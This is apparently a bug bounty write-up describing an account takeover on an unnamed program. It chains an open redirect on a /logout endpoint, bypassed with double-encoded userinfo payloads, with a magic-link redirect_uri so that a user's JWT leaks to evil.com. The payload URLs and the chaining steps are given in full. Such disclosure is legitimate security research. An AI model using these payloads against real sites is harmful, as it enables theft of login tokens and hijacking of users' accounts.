

# Account Takeover Through Open Redirect

## How:

The program had an endpoint that was open to redirection vulnerability. By combining this vulnerability with authentication functionality, I was able to take over the user's account.

## Open Redirection Vulnerability:

### Original Request

### Steps

- The application had an endpoint like this  ***/logout***  that takes a ***GET*** parameter called ***r***.
- The parameter ***r*** takes an endpoint to be redirected to like this ***/logout?r=/dashboard***.
- So I tried to put a valid host to see what it does like this ***logout?r=https://program.com/***.
- The application redirected me, so I knew that I could play with it to see what else I could get.
- I tried to set the host name to another domain like ***r=https://evil.com/*** and the application responded with ***invalid redirect uri***.
- Knowing this I thought of listing some payloads to try out: 
  ***r=https://evil.com/program.com*** 
  ***r=https://program.com.evil.com*** 
  ***r=https://program.com@evil.com*** 
  ***r=https://evil.com@program.com*** 
  
- The last one was the road to success from this list. However, it's still no redirection because the application will always redirect to itself.

- So at first, why did we try these payloads?
  - When I try to find an open redirection, I first try to know what url format is allowed or understandable by browsers. So, the meaning of ***https://john@program.com*** is that you are trying to access ***program.com*** as username ***john***. You can try this on firefox or chrome. 
  - So, by knowing this, I was thinking, what if the developer is using a regex that validates this format,and when someone tries to change the value of ***r*** to ***https://evil.com@program.com*** he validetes it as a valid value because he knows that it's the same thing. The user will be redirected to program.com at the end, too.
  - Another question comes to mind. What is the set of characters allowed before ***@*** I tried to test it on the browser to see what is allowed. And, I have found that the browser when I put an encoded value like this ***john%2f*** as a username, it validates it and sees it as a valid value. You can try it ***john%2f@google.com***.
  - I tried to set ***r*** to ***https://evil.com%252f@program.com/*** and sent the request. The response successfully redirected me to ***https://evil.com/@program.com/***
  - So, let's break the payload.
    - The application validates this ***john@program.com*** as a valid format.
    - So I tried to inject ***/*** in the payload but double-encoded  like this ***https://evil.com%252f@program.com/***.
    - It's double encoded because if I encode once, it will reach the web server decoded one time.
    - The payload reaches the code at the other end like this ***https://evil.com%2f@program.com/***.
    - Then the response returns the redirection like this ***https://evil.com/@program.com***.
    - As you can see, the browser will treat ***/@program.com*** as a path to ***https://evil.com*** and the redirection successfully happens to **evil.com**.
- Another important thing is that the ***/logout*** endpoint sends any get parameter with the new redirection, like this **/logout?r=https://evil.com%252f@program.com&heap=heap** the redirection will be like this **https://evil.com/@program.com/?r=https://evil.com%252f@program.com&heap=heap**.

### Exploited Request

## Exploiting The Login Functionality.

### Original Request

### Steps

- The application has the functionality to send you a magic link to login with it. This endpoint takes span style="color:red">***email*** and ***redirect_uri*** parameters. So, after trying to find a vulnerability in the email, I tried to find out what I could do with the ***redirect_uri***.
- The ***redirect_uri*** takes a url, and the application appends a **JWT** token to it as a GET parameter and sends it to the user.
- So, I tried to play with the hostname of this url to try and find an open redirection, but with no clue.
- But, what if I could edit the path of the url like this **https://program.com/anypath/anypath** I tried it and sent the request, and when I looked at my mail, I found that the magic link is like this **https://program.com/anypath/anypath?jwt=SOME_VALUE**.
- Okay great, Can I combine this with the open redirection I have found before? set the **redirect_uri** to **https://program.com/logout?r=https://evil.com%2525%2532%2566@program.com**.
- And the magic link sent was like this **https://program.com/logout?r=https://evil.com%252f@program.com&jwt=SOME_VALUE**.
- Clicking the link, I was redirected to **https://evil.com/?https://evil.com%252f@program.com&jwt=SOME_VALUE**.
- Doing this, I was able to get the JWT as an attacker, and using the JWT, I was able to login.
- So the same scenario applies if you want to target another user. You need an email, and after collecting the JWT, you can use it to login to the user's account.

### Exploited Request

### My Info

#### Yeswehack  : <a href="https://yeswehack.com/hunters/mekky">https://yeswehack.com/hunters/mekky</a>

#### Intigriti  : <a href="https://app.intigriti.com/researcher/profile/mekky">https://app.intigriti.com/researcher/profile/mekky</a>

#### Linkedin   : <a href="https://www.linkedin.com/in/muhammed-mekkawy-1504821b2/">https://www.linkedin.com/in/muhammed-mekkawy-1504821b2/</a>

#### Twitter    : <a href="https://twitter.com/Mekky49295157">https://twitter.com/Mekky49295157</a>

